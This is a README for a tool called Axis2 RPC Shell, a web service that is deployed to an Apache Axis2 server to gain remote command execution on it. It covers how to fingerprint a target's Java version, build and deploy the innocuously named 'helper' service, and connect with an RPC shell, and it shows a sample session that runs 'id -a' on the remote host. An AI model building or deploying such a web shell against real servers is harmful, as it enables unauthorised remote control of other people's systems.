 # Axis2 RPC Shell

This package contains a deployable Axis2 web service along with a bootstrapped shell that can be used to obtain remote command execution on an Axis2 server.  This was produced for two reasons: I wanted a simple shell that could be deployed manually, and I did not want to use Metasploit.  Communication between the Axis2 server and shell are over RPC, and is base64'd (feel free to PR crypto support).  Think Java applets.  This is not a full featured shell (like Fuze), but allows simple, ad-hoc command execution on a remote Axis2 server.

Tested on Linux and Windows, back to 1.3, with Java versions 1.6 and 1.7.  Packaged Axis2 libraries taken from 1.3, but have been tested and working with 1.6.3 (latest) builds.

# Build

BUILDING THIS FOR YOUR ENVIRONMENT IS GOING TO BE DIFFERENT ALMOST EVERY TIME.  READ THIS STUFF.

With your target box in sights, navigate to `http://your-host:8080/axis2/axis2-web/HappyAxis.jsp` to obtain the local Java version.  This is required for correctly building the web service.

We can then put our web service together with the following:

```
javac -target [VERSION] -source [VERSION] -cp .:"lib/*" helper/HelpService.java
jar cf helper.jar helper/* META-INF/*
```

Replace VERSION with the major/minor Java version discovered on the remote host (ie. 1.6/1.7/1.8).  This will produce `helper.jar`, which is the Axis2 web service ready to be deployed.  You can deploy this via the web interface or using my app server tool `clusterd`.

We then need to build our shell component, which can be built using the same method:

```
javac -cp .:"lib/*" rpcshell.java
```

# Usage

Once you've got your shiny service deployed, we just need to fire up the shell.  This can be performed using the following, passing in the IP and PORT of the remote Axis2 server:

```
java -cp .:"lib/*" rpcshell 127.0.0.1 8080
```

Which launches this:

```
[!] Type !exit to quit
localhost > id -a

uid=1000(bryan) gid=1000(bryan) groups=1000(bryan),4(adm),20(dialout),24(cdrom),46(plugdev),116(lpadmin),118(admin),124(sambashare)
localhost > 
```

Shell works as advertised.

# Axis2 Trouble

If you deploy and notice your service isn't there, keep trying.  Sometimes it takes up to 10 seconds to populate and properly deploy.  If the service still isn't there, scroll to the bottom of the services tab and see if there were deploy errors.  Axis2 gives useful stack trace information for diagnosing the issue.

Please note that if you screw up once, you'll need to change the service name and the invoke function name (default "help") in order to properly redeploy.  Axis2 will vomit an error about name collisions if you simply just redeploy.
